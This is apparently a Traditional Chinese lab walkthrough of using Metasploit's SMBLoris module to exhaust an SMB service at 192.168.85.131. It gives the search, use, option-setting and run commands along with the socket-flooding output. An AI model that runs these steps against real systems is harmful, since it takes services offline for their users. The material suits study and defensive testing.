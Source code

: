 1. search
<pre><u style="text-decoration-style:single">msf6</u> auxiliary(<font color="#EC0101"><b>dos/smb/smb_loris</b></font>) &gt; search smbloris

Matching Modules
================

   #  Name                         Disclosure Date  Rank    Check  Description
   -  ----                         ---------------  ----    -----  -----------
   0  auxiliary/dos/smb/smb_loris  2017-06-29       normal  No     <span style="background-color:#9755B3">SMBLoris</span> NBSS Denial of Service


Interact with a module by name or index. For example <font color="#5EBDAB">info 0</font>, <font color="#5EBDAB">use 0</font> or <font color="#5EBDAB">use auxiliary/dos/smb/smb_loris</font>
</pre>

3. use 與 設定選項
<pre><u style="text-decoration-style:single">msf6</u> auxiliary(<font color="#EC0101"><b>dos/smb/smb_loris</b></font>) &gt; use 0
<u style="text-decoration-style:single">msf6</u> auxiliary(<font color="#EC0101"><b>dos/smb/smb_loris</b></font>) &gt; options

Module options (auxiliary/dos/smb/smb_loris):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   rhost  192.168.85.131   yes       The target address
   rport  445              yes       SMB port on the target

<u style="text-decoration-style:single">msf6</u> auxiliary(<font color="#EC0101"><b>dos/smb/smb_loris</b></font>) &gt; set rhost 192.168.85.131
rhost =&gt; 192.168.85.131
</pre>

4. 攻擊
此時我們輸入``run``便可進行攻擊
要注意的是，這個攻擊不會自動結束，要手動關閉
因為這個模組會試圖保持連接
```shell
msf6 auxiliary(dos/smb/smb_loris) > run

[*] Starting server...
[*] 192.168.85.131:445 - 100 socket(s) open
[*] 192.168.85.131:445 - 200 socket(s) open
[*] 192.168.85.131:445 - 300 socket(s) open
[*] 192.168.85.131:445 - 400 socket(s) open
[*] 192.168.85.131:445 - 500 socket(s) open
[*] 192.168.85.131:445 - 600 socket(s) open
[*] 192.168.85.131:445 - 700 socket(s) open
[*] 192.168.85.131:445 - 800 socket(s) open
[*] 192.168.85.131:445 - 900 socket(s) open
[*] 192.168.85.131:445 - 1000 socket(s) open
跳過一點....
[*] 192.168.85.131:445 - 3900 socket(s) open
[!] 192.168.85.131:445 - At open socket limit with 3995 sockets open. Try increasing your system limits.
[*] 192.168.85.131:445 - 3995 socket(s) open
[*] 192.168.85.131:445 - Holding steady at 3995 socket(s) open
[*] 192.168.85.131:445 - Holding steady at 3995 socket(s) open
```
